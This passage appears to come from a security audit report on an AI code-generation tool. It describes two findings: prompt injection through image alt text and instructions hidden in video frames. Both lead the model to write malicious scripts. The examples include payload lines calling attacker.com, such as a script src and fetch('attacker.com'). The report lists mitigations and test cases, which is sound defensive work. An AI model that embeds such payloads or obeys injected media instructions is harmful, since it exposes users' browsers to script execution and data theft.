 
### 4. **Malicious JS Injection via Image Alt Text** (High)
**Description**:
The system uses `alt` text from user-provided images to generate code. Attackers can set `alt="src='attacker.com/malicious.js'"`, tricking the AI into embedding malicious URLs in generated scripts.

**Step-by-Step Trigger**:
1. Upload an image with `alt` text containing unsafe URLs.
2. The AI generates code like `<img src="attacker.com/exploit.js">`.

**Impact**:
- Execution of external malicious scripts in users' browsers.

**Vulnerability Rank**: High

**Current Mitigations**: None.

**Missing Mitigations**:
- Validate `alt` text for URLs/patterns.
- Sanitize generated code to block unsafe attributes.

**Preconditions**:
- User uploads an image with malicious `alt` text.

**Source Code Analysis**:
- **`image_processing_utils.py`**: Line 23 extracts `alt` text without validation.

**Security Test Case**:
1. Upload an image with `alt="src='attacker.com/exploit.js'"`.
2. Confirm the generated response includes the unsafe `<img>` tag.

---

### 5. **Malicious Code via Video Input** (High)
**Description**:
The `video_utils.py` module processes video frames without validation. Attackers can include frames instructing the AI to generate dangerous code like `eval(userInput)` or `fetch('attacker.com')`.

**Step-by-Step Trigger**:
1. Upload a video with frames containing steganographic text or instructions.
2. The AI generates malicious code (e.g., phishing forms) based on the video content.

**Impact**:
- Arbitrary code execution or data exfiltration via generated scripts.

**Vulnerability Rank**: High

**Current Mitigations**: None.

**Missing Mitigations**:
- Analyze video frames for hidden text/instructions.
- Sanitize output to block `eval()` and external URLs.

**Preconditions**:
- User uploads a malicious video.
